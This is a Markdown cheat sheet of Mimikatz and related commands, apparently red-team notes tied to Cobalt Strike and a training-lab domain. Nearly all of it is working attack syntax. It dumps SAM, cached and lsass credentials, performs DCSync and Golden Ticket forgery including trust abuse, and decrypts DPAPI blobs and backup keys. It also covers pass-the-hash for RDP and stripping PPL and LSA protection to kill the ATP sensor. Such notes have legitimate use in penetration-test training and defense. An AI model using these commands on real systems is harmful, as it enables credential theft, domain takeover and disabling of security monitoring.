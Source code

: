 - Elevate into high-integrity context
	- `token::elevate`
	- "!" before command in Cobalt Strike
- Dump SAM file for local hashes
	- `lsadump::sam`
- Extract Domain Cached Credentials
	- `lsadump::cache`
- DCSync
	- `mimikatz lsadump::dcsync /domain:DOMAIN_NAME /user:USERNAME`
- Golden Ticket
	- `kerberos::golden /user:<username to impersonate> /domain:<FQDN of current domain> /sid:<SID of current domain> /krbtgt:<NTLM hash of krbtgt account> /ticket:golden.kirbi`
	- Abusing foreign trust:
		- `kerberos::golden /user:Administrator /domain:dev.zeropointsecurity.co.uk /sid:<SID of current domain> /sids:<SID of domain admin account /krbtgt:REDACTED /ticket:zps.kirbi`
- Harvesting DPAPI creds
	- Credential blobs are stored in: `C:\\Users\\<username>\\AppData\\Local\\Microsoft\\Credentials`
	- Get guidMasterKey (key identifier) and pbData (encrypted blob) from:
		- `dpapi::cred /in:C:\\Users\\<username>\\AppData\\Local\\Microsoft\\Credentials\\5DD604C1E108746934B92E2A20318758`
	- Retrieve MasterKey from Domain Controller:
		- `dpapi::masterkey /in:C:\\Users\\<username>\\AppData\\Roaming\\Microsoft\\Protect\\S-1-5-21-3865823697-1816233505-1834004910-1132\\fcf4f725-0947-4180-a924-bc9da9ed8910 /rpc`
	- Decrypt credential blob with MasterKey:
		- `dpapi::cred /in:C:\\Users\\<username>\\AppData\\Local\\Microsoft\\Credentials\\5DD604C1E108746934B92E2A20318758 /masterkey:REDACTED`
- RDP pass-the-hash
	- `sekurlsa::pth /user:"<username>" /domain:"<domain>" /ntlm:<NTHash> /run:"mstsc.exe /restrictedadmin"`
- Get Kerberos keys
	- `sekurlsa::ekeys`
- Get Kerberos tickets
	- `sekurlsa::tickets`
- Pypykatz
	- `pypykatz lsa minidump lsass.dmp -k /tmp/kerb > output.txt`
- DPAPI Backup Key (domain controller)
	- `lsadump::backupkeys /system:localhost /export`
	- Note: PFX is packed with passphrase "mimikatz". To unpack and repack with a new passphrase:
		- `openssl pkcs12 -in DMK.pfx -out temp.pem -nodes`
		- `openssl pkcs12 -export -out DMK.pfx -in temp.pem`
- Remove PPL protections to kill a process
	- `!processprotect /process:MsSense.exe /remove`
	- This will alert ATP
- Disable LSA Protection by loading mimidrv.sys driver (must upload mimidrv.sys)
	- `!+` at Mimikatz prompt
	- `!processprotect /process:lsass.exe /remove` after driver is loaded
- Use Remote Desktop with PasstheHash
	- `sekurlsa::pth /user:admin /domain:corp1 /ntlm:<NTLM hash> /run:"mstsc.exe /restrictedadmin"
	- RestrictedAdmin must be enabled (disabled by default, set in registry)
`